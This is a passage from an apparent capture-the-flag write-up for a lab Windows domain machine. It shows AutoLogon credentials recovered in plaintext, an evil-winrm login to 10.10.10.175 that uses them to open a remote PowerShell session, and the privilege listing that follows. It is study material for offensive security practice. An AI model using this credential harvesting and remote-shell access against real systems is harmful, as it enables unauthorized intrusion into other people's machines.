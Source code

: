     :::text
    [+] Looking for AutoLogon credentials(T1012)
      Some AutoLogon credentials were found!!
          DefaultDomainName             :  EGOTISTICALBANK
          DefaultUserName               :  EGOTISTICALBANK\svc_loanmanager
          DefaultPassword               :  Moneymakestheworldgoround!

We connect on the box with the svc_loanmgr account using
[evil-winrm](https://github.com/Hackplayers/evil-winrm).

    :::text
    ruby evil-winrm.rb -u svc_loanmgr -i 10.10.10.175 -p 'Moneymakestheworldgoround!'

    Evil-WinRM shell v1.8

    Info: Establishing connection to remote endpoint

    *Evil-WinRM* PS C:\Users\svc_loanmgr\Documents>

## Enumerating our user's privileges

We run the `whoami /all` command to list our user permissions but there is
nothing interesting here: As the [Microsoft documentation](https://docs.microsoft.com/en-us/windows/security/threat-protection/security-policy-settings/user-rights-assignment)
point out all our privileges and group are legitimate.

    :::text
    *Evil-WinRM* PS C:\Users\svc_loanmgr\Documents> whoami /all

    USER INFORMATION
    ----------------

    User Name                   SID
    =========================== ==============================================
    egotisticalbank\svc_loanmgr S-1-5-21-2966785786-3096785034-1186376766-1108


    GROUP INFORMATION
    -----------------

    mGroup Name                                  Type             SID          Attributes
    =========================================== ================ ============ ==================================================
    Everyone                                    Well-known group S-1-1-0      Mandatory group, Enabled by default, Enabled group
    BUILTIN\Remote Management Users             Alias            S-1-5-32-580 Mandatory group, Enabled by default, Enabled group
    BUILTIN\Users                               Alias            S-1-5-32-545 Mandatory group, Enabled by default, Enabled group
    BUILTIN\Pre-Windows 2000 Compatible Access  Alias            S-1-5-32-554 Mandatory group, Enabled by default, Enabled group
    nNT AUTHORITY\NETWORK                        Well-known group S-1-5-2      Mandatory group, Enabled by default, Enabled group
    NT AUTHORITY\Authenticated Users            Well-known group S-1-5-11     Mandatory group, Enabled by default, Enabled group
    NT AUTHORITY\This Organization              Well-known group S-1-5-15     Mandatory group, Enabled by default, Enabled group
    NT AUTHORITY\NTLM Authentication            Well-known group S-1-5-64-10  Mandatory group, Enabled by default, Enabled group
    Mandatory Label\Medium Plus Mandatory Level Label            S-1-16-8448
